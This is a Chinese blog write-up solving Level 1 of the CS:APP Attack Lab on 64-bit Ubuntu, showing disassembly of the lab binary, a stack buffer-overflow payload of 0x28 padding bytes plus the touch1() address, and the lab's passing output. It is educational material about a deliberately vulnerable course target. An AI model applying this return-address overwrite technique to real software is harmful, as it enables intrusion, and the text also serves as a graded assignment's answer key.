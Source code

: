 ```yaml
---
title: CS:APP Lab 3 解题报告 - 64位
description: 在 64 位机器上完成 CSAPP Lab 3 的解题报告。
pubDatetime: 2018-09-28T21:00:00+08:00
tags:
    - CSAPP
---
```


CSAPP 的 Lab 3 在第三版之前都是所谓的 Buffer Lab，而 CSAPP 第三版的配套 Lab 3 则是 Attack Lab。因为我们学校新开的计算机系统基础课可能要以此为实验，故再来重新感受一番。该 Lab 的实验流程与 Buffer Lab 基本相同，我们直接开始。本次实验笔者使用的环境为 Ubuntu 18.04。



### Part I: Code Injection Attacks

按照惯例，我们先把 `ctarget` 的反汇编码保留一份。

```bash
objdump -d ctarget > ctarget.S
```

#### Level 1

这一阶段我们要做的就是调用 `touch1()` 函数，我们先找到该函数的地址，为 `00000000004017c0`，

再看一下 getbuf 的内容，上面赫然写着 ：

```
sub    $0x28,%rsp
```

显然我们只需要随便输入 `0x28` 个字节的内容然后输入 `touch1()` 的地址即可。因此构造答案：

```
66 66 66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66 66 66
c0 17 40 00 00 00 00 00
```

运行答案：

```bash
name1e5s@sumeru:~/csapp/attacklab-name1e5s/target1$ ./hex2raw < p1l1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 C0 17 40 00 00 00 00 00
```
